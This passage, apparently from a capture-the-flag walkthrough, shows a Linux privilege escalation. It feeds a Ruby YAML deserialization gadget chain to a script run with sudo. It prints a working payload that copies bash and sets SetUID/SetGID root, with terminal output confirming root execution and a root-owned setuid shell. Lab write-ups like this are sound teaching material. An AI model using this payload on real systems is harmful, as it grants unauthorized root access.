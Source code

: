 ```

henry@precious:/dev/shm$ sudo ruby /opt/update_dependencies.rb 
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
        33: from /opt/update_dependencies.rb:17:in `<main>'
        32: from /opt/update_dependencies.rb:10:in `list_from_file'
...[snip]...
         1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)

```

It’s easy to miss the `id` output with all the other lines, but it’s there, and that’s execution as root!

### Shell

To get a shell, I’ll update my payload to copy `bash` and make the copy SetUID and SetGID for root:

```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: cp /bin/bash /tmp/0xdf; chmod 6777 /tmp/0xdf
         method_id: :resolve

```

After I run this, there’s a file at `/tmp/0xdf`:

```

henry@precious:/dev/shm$ sudo ruby /opt/update_dependencies.rb 
sh: 1: reading: not found
Traceback (most recent call last):
        33: from /opt/update_dependencies.rb:17:in `<main>'
...[snip]...
henry@precious:/dev/shm$ ls -l /tmp/0xdf 
-rwsrwxrwx 1 root root 1234376 May 17 22:05 /tmp/0xdf

```

